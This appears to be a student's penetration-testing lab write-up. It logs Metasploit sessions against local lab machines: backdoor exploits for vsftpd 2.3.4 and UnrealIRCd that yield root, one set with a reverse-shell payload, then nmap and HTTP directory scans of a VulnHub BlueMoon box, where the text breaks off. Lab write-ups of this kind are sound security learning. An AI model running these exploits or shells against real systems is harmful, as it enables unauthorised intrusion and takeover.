     ```
    sudo msfdb init
    sudo msfconsole
    workspace -a h2-b
    db_nmap -Pn -sV 172.28.128.2
    ```

- Found FTP server running and wanted to try if that is vulnerable

    ```
    search vsftp
    exploit/unix/ftp/vsftpd_234_backdoor
    exploit
    ```

- got root access, but wanted to try something else. I noticed the server was running UnrealIRCd, which was new service for me. I seached for an exploit and wanted to try, if it would work

    ```
    search UnrealIRCd
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set payload cmd/unix/reverse
    exploit
    ```

- and again we got root really easily, which is quite scary

---

## c) Install and hack a machine from VulnHub

- I downloaded with [BlueMoon](https://www.vulnhub.com/entry/bluemoon-2021,679/) box from VulnHub and after some troubleshooting, got it in the same network as my Kali instance
-  I started by finding the instance on my network and scanning for interesting ports

    ```
    sudo msfdb init
    sudo msfconsole
    workspace -a h2-c
    db_nmap 172.28.128.0/24
    db_nmap -sV 172.28.128.8
    setg RHOSTS 172.28.128.8
    ```

- Target was running ftp, http and ssh, but none of the versions were vulnerable to known exploits
- I checked the http server from browser and it said nothing interesting. I tried to scan the directories on that website, but it found nothing interesting

    ```
    use auxiliary/scanner/http/dir_listing
    run

    use auxiliary/scanner/http/dir_scanner
    run

    use auxiliary/scanner/http/files_dir
    run
    ```
